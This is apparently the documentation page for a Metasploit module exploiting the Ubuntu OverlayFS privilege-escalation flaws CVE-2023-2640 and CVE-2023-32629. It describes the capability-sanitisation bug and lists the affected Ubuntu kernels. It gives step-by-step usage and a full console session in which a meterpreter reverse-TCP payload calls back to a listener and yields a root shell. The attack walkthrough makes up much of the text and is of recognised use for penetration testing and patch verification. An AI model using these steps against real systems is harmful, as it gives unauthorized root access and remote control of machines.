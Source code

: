 ## Description

CVE-2023-2640 and CVE-2023-32629 are vunerabilites that allow for the arbitrary setting of 
capabilities while overlaying filesystems. On most Linux Kernels during the execution of
 `ovl_do_setxattr` an intermediate function `vfs_setxatrr` converts file capabilities in a
way that limits them to the current namesapce. However, on some versions of the Ubuntu kernel
 `_vfs_setxattr_noperm` is called directly without calling `vfs_setxattr`. 

When a new namespace is created the user will technically be "root" within that given 
namespace. This module will take advantage of this by setting the 	`CAP_SETUID` capability 
on a system binary. It will then perform filesystem overlay, copying the binary into the lower
directory. Because of the flaws described above when the binary is transfered into the upper
directory it's capabilities will not be sanitized and persist in the "normal" namespace. 

## Vunerable Application

These vunerabilities are somewhat unique in that they effect a wide variety of Ubuntu releases
and kernel versions, as described in the list below. 

Ubuntu 23.04 (Lunar Lobster)m kernel 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.10 (Kinetic Kudu), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 5.19.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 22.04 LTS (Jammy Jellyfish), kernel -> 6.2.0, (CVE-2023-2640 & CVE-2023-32629)

Ubuntu 20.04 LTS (Focal Fossa), kernel -> 5.4.0, (CVE-2023-32629)

Ubuntu 18.04 LTS (Bionic Beaver), kernel -> 5.4.0, (CVE-2023-32629)

The user can download a vunerable version, for example:

```
sudo apt update
sudo apt install -y linux-image-5.19.0-41-generic linux-headers-5.19.0-41-generic
reboot
```
While testing @bwatters7 mentioned taking the system Be sure to take the system offline to 
prevent the vunerabilities from silently being patched. 

This module has succesfully been tested on the following:

Ubuntu 22.04 LTS (Jammy Jellyfish) 5.19.0-41-generic

Ubuntu 20.04 LTS (Focal Fossa) 5.4.0-1018-aws

## Verification Steps

1). Start `msfconsole`

2). Get a session on a vunerable system

3). Use `exploit/linux/local/gameoverlay_privesc`

4). Optional: choose target for payload, either system command (1) or payload (2) 
`set target 1`

5). Set session `set session [SESSION]`

5). Do. `run`

6). You should get a new session running as root. 

## Options

### Payload File Name
Name of the file storing the payload, default is `marv`.

### Writable Dir
The name of a directory with write permissions, defualt is `/tmp`. This will be where the 
payload file will be created. Additionally during the exploit a series of directories will be
created here to perform the filesystem overlaying. 

## Scenarios

You have a non-root session on one of the systems described above. Please note that this 
module will automatically run checks to determine if the system is vunerable, you can disable 
this with `set AutoCheck False`. 

```
 > use exploit/linux/local/gameoverlay_privesc 
[*] No payload configured, defaulting to linux/aarch64/meterpreter/reverse_tcp
msf6 exploit(linux/local/gameoverlay_privesc) > set session 1
session => 1
msf6 exploit(linux/local/gameoverlay_privesc) > set target 0
target => 0
msf6 exploit(linux/local/gameoverlay_privesc) > set payload linux/aarch64/meterpreter_reverse_tcp
payload => linux/aarch64/meterpreter_reverse_tcp
msf6 exploit(linux/local/gameoverlay_privesc) > set lhost 10.5.135.201
lhost => 10.5.135.201
msf6 exploit(linux/local/gameoverlay_privesc) > show options

Module options (exploit/linux/local/gameoverlay_privesc):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   PayloadFileName  pVmtuGOGXdO      yes       Name of payload
   SESSION          1                yes       The session to run this module on
   WritableDir      /tmp             yes       A directory where we can write files


Payload options (linux/aarch64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux_Binary



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/gameoverlay_privesc) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Ubuntu version: Jammy Jellyfish
[*] Detected kernel version: 5.19.0-41-generic
[+] The target is vulnerable. Jammy Jellyfish with 5.19.0-41-generic kernel is vunerable
[*] Creating directory /tmp/UqNFkc/
[*] Creating directory /tmp/UqNFkc/QKZiqWWsnSOz/
[*] Creating directory /tmp/UqNFkc/WbrucZxIAlWZF/
[*] Creating directory /tmp/UqNFkc/uKmqunqY/
[*] Creating directory /tmp/UqNFkc/pwFUmC/
[*] Writing payload: /tmp/UqNFkc/pVmtuGOGXdO
[*] Starting new namespace, and running exploit...
[+] Deleted /tmp/UqNFkc/
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.132.149:49168) at 2024-10-02 16:28:43 -0500
[*] 

meterpreter > sysinfo
Computer     : 10.5.132.149
OS           : Ubuntu 22.04 (Linux 5.19.0-41-generic)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > 
```
